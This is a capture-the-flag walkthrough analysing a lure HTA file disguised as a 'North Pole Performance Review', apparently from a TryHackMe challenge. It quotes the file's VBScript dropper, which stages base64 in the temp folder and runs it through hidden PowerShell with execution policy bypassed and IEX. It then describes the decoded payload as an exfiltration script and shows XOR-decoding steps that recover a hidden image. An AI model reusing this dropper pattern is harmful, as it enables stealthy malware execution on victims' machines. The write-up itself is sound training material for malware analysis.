



## HTA analysis

## Step - 1 Asset Download
```
https://assets.tryhackme.com/additional/aoc2025/SQ4/NorthPole.zip

Password : CanYouREM3?
```
## Step -2 Choose your poision

This Task can be done through windows or linux Choose your poision and Follow Along

It's recommended to Use the Machine that you Use Daily to Train your hands and eyes we're here to Learn and grow not to follow a walkthrough

# Windows

Open the HTA using a Text Editor Like Notepad++

Make sure not to double click it by accident as if it were a malicious file your system will be infected so if you analyze a malware always make sure to use a Sandbox enviroment

# Linux
Open the HTA using a Text Editor Like pluma
```
 pluma /Directory to file
```
It's recommended to open it using linux to avoid any misclicks (yes this has no malicious content but we are training to be a cybersecurity Experts so always use the correct methods to make it a habit of yours)

## step 3 Analysis 
At the first glance social engineering is all over the place  you'll notice the title to be , the scary performance review that will show if you're fired or you'll get a bouns
```
North Pole Performance Review 2025
``` 
to make it seem as a legit app and also you'll find some options at the end but now we see a chuck of data that gets decoded



Looking at the end after that Random String you'll find

```
      Set fso = CreateObject("Scripting.FileSystemObject")
      t = fso.GetSpecialFolder(2)
      Set f = fso.CreateTextFile(t & "\stg.b64", True)
      f.Write p
      f.Close
      Set s = CreateObject("WScript.Shell")
      c = "powershell -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -Command ""$x=[System.IO.File]::ReadAllText((Join-Path $env:TEMP 'stg.b64')); $s=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($x)); IEX $s"""
      s.Run c,0,True

```

So it's a base64 String , time for some clean up



Looking at the string we want clean " & _ and lf(aka \n) , so we use the find and replace operation to remove them and remove all of the white spaces and then get the Data From base 64

we get the following output



## Step 4 - conclusion

SO its an exfiltration Script that aims to steal your data well good thing we are offline so our data wont be stolen 

## Step 5 - Curiosity

Now we Finished Analyzing what the script does now we want that juciy side quest key so we start anylzing the Powershell script that was extracted from the inital base64 string

now we find an XOR key ,  a new base64 String , and a Loop that XOR each byte of the decoded base64 string

now lets see what this String hides

we can remove the uneseccary lines and keep the base64 string and the for loop
```
for($i=0;$i -lt $b.Length;$i++)
{
$b[$i]=$b[$i] -bxor $k
}
``` 
as we know the keys are usually hidden in images , but anyway we can use the following to  show the first 16 hex values and identify any signatures

```
($b[0..15] | ForEach-Object { '{0:X2}' -f $_ }) -join ' '
```

Common signatures:

PNG: 89 50 4E 47 0D 0A 1A 0A
JPG: FF D8 FF
GIF: 47 49 46 38
BMP: 42 4D
WEBP: starts with 52 49 46 46 (“RIFF”), and later contains “WEBP”

i'll let you do it your self to see which signature we revealed

then we Save the bytes as an X File to Get the rendered Image
```
$out = "$env:TEMP\decoded.(Try it your self to get the correct extension)"
[System.IO.File]::WriteAllBytes($out, $b)
Start-Process $out
```


Hope you enjoyed the walkthrough <3 